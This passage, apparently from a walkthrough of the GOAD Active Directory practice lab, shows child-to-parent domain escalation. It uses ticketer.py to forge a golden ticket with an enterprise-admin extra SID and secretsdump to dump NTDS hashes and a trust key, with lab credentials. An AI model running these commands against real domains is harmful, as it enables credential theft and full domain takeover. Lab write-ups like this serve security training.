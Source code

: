 - And now create the golden ticket : we add "-519" at the end of the extra-sid (means enterprise admin) (list of domain SID here : [https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-identifiers](https://learn.microsoft.com/en-us/windows-server/identity/ad-ds/manage/understand-security-identifiers))

```bash
ticketer.py -nthash 13354bc6e1b48fff8d66a2090e909b27 \
 -domain-sid S-1-5-21-638448100-4005671799-261795860 \
 -domain north.sevenkingdoms.local \
 -extra-sid S-1-5-21-1409754491-4246775990-3914137275-519 \
 goldenuser
```

- And we use the ticket to dump the parent domain NTDS

```bash
secretsdump -k -no-pass -just-dc-ntlm \
 north.sevenkingdoms.local/goldenuser@kingslanding.sevenkingdoms.local
```

![trusts_child_extrasid_golden.png](/assets/blog/GOAD/trusts_child_extrasid_golden.png)


## Trust ticket - forge inter-realm TGT

- Another way to escalate from child to parent is by extracting the trust key and use it to create our trust ticket (a very good explanation and examples with Mimikatz can be found here : [https://adsecurity.org/?p=1588](https://adsecurity.org/?p=1588))

- The trust key can be found by targeting the netbios name of the domain on the ntds

```bash
secretsdump -just-dc-user 'SEVENKINGDOMS$' \
 north.sevenkingdoms.local/eddard.stark:'FightP3aceAndHonor!'@192.168.56.11
```

![trusts_key.png](/assets/blog/GOAD/trusts_key.png)
